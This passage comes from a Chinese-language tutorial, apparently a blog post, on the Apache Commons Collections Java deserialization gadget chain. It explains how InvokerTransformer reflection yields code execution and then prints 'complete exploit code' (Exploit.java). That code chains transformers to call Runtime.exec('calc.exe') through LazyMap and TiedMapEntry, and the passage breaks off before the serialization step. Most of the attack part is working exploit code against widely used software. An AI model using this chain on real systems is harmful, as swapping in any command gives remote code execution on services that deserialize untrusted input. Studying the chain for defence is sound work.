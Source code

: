 ```java
                Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
                return method.invoke(input, this.iArgs);
            } catch 
                // ...... some exception handlers
                
        }
    }
```

这就是最激动人心之处，InvokerTransformer的transform方法竟然是一个写好的**反射版代码执行Snippet**，我们只需对着构造函数填入参数即可。

最后，总结一下上述的payload构造过程。它的调用堆栈如下图：

![](9.png)

完整版的漏洞利用代码和演示结果：

```java
// Exploit.java

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.io.File;
import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class Exploit {
    public static void main(String[] args) throws Exception {
        //定义待执行的命令:
        String commandstring = "calc.exe";

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),

                new InvokerTransformer(
                        "getMethod",
                        new Class[] {String.class, Class[].class},
                        new Object[] {"getRuntime", new Class[0] }
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[] {Object.class,Object[].class },
                        new Object[] {null, new Object[0] }
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[] {String[].class },
                        new Object[] { new String[] {commandstring} }
                )
        };
        
        // chainedTransFormer 会调用transform 方法，该方法依次调用转换器数组
        Transformer transformedChain = new ChainedTransformer(transformers);

        final Map lazyMap = LazyMap.decorate(new HashMap(), transformedChain);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");
```